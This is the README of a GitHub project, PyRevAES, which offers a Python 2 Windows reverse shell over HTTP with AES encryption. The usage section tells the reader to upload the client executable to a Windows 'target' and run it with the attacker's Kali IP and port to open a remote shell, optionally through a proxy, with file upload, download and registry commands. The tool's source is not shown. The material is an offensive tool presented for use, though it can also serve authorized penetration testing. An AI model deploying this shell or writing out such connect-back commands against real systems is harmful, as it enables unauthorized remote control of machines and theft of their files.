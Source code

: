 <h1 align="center">
	<img width="400" src="pyrevaes.png" alt="PyRevAES">
</h1>

# PyRevAES

A Windows Reverse Shell using HTTP methods with 256-bit AES encryption written in python version 2

If I get some time (and encouragement), I will convert this to a python3 project and probably use some oop.

## Usage:
1. Run server_shell_http.py from kali
2. Upload client_shell_http.exe to Windows target
3. Run the following command on the target for a reverse shell without proxy:
```
C:\client_shell_http.exe <kali_ip> 80
```
4. Run the following command for a reverse shell with proxy:
```
C:\client_shell_http.exe <kali_ip> <kali_port> <proxy_address> <Proxy_port>
```

## EXTRAS:
```client_shell_http.py``` - If you want to create your own executable or run directly from python,  code is available.

```TCP_proxy_online.py``` - TCP proxy from ```https://stackoverflow.com/questions/32468270/tcp-proxy-using-python``` Purely the work of voorloop. You might need to modfy lines 16 and 94 for the forwarded reverseshell/port and the proxy port, respectively.

```get-pip.py``` To install pip for python2 (after deprecation). Reference: https://bootstrap.pypa.io/

## COMMANDS:
```upload [filename]```

```download [filename]```     => Need to rename file after download.

```winreg```                 => displays help message


## Install
1. git clone <repo>
2. ```pip2 install -r requirements.txt```
3. ```python2 server_shell_http.py```
4. choose port ```80``` - Other ports may work, but it works best with port ```80```

## Issues
If there are issues with pip2 installation (due to deprecation) refer to this to get pip for python2 working again. ```https://bootstrap.pypa.io/```
If there are issues with pycrypto, install the following:
```sudo apt install build-essential libssl-dev libffi-dev python-dev```
If still having issues, try running everything using sudo.


## Notes:
- Logo made with courtesy of https://www.freelogodesign.org/
- Most of this code is from here ```https://www.trustedsec.com/2012/03/building-a-native-http-shell-with-aes-in-python/``` and about twenty other different sources.  I apologise if I haven't referenced anyone's code here.
